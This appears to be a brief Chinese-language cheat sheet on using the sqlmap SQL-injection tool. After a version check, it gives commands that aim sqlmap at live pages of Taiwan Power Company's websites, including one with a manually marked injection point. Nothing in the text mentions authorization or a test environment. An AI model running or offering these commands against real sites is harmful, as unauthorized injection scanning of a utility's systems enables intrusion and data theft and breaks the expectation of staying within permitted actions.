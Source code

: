# 如何使用 sqlmap

### 檢查 sqlmap 有沒有安裝
```sh
sqlmap --version
```

### 指定目標
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44"
```

### 手動指定參數位置，後面加*
```sh
sqlmap -u "https://iest.taipower.com.tw/Home/PublicationDetail/32*"
```

